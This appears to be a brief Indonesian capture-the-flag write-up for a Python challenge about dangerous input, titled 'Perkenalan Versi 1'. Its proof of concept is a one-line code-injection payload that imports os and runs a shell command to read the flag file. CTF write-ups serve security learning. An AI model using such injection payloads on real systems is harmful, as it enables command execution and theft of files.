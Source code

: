 ## Judul Soal
Perkenalan Versi 1

## Deskripsi Soal
Input Berbahaya pada ular

---
## Proof of Concept
- __import__('os').system('cat flag')
## Flag
See the flag file
